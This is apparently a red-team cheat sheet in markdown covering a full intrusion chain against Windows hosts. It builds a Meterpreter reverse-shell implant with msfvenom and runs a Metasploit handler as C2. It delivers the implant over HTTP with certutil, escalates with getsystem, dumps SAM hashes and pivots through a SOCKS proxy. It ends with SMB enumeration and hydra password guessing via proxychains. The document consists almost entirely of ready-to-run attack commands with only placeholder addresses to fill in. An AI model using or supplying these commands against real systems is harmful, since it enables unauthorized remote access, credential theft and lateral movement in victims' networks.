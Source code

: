 # access
## generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***[OWN IP]*** -f exe -o implant.exe  
## start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***[OWN IP]***  
> run -j  
## start webserver for implant download
> python3 -m http.server 80
## windows LOLBIN basic download of implant
> certutil -urlcache -f http://***[OWN IP]***/implant.exe implant.exe  

# actions on target
## attempt to get SYSTEM privs
> getsystem  
## dump SAM
> hashdump
## set up proxychains for pivoting
### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
### from msfconsole
> use post/multi/manage/autoroute  
> set session ***[NUMBER]***  
> set subnet ***[SUBNET]***  
> set netmask ***[NETMASK]***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
### from bash
> proxychains nmap -Pn -p445 ***[TARGET IP]*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***[TARGET IP]***  


